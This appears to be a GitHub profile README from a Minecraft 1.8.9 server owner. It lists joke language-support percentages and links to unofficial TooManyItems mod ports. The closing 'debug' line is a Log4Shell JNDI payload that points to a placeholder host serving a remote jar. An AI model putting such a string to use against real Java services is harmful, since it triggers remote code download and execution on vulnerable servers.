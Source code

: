# Supported languages:
- 100% lang.128.name
- 96% International Phonetic Alphabet
- 95% Autistic Chinese
- 90% Simplified Chinese
- 90% Autistic English
- 85% BakGing Chinese
- 75% Traditional Chinese
- 40% Cantonese Chinese
- 10% Spanish

# 1.8.9 Server Owner & Minecraft Content Editor that almost know nothing about Java.

## TOOMANYITEMS mod For 1.8.9 and Legacy Fabric(unoffically upgraded&ported by me)
https://github.com/HowardZHY/TooManyItems
https://github.com/HowardZHY/TooManyItems-LegacyFabric


Most people thonk I'm at least 30, 40 even 50 years old.


debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
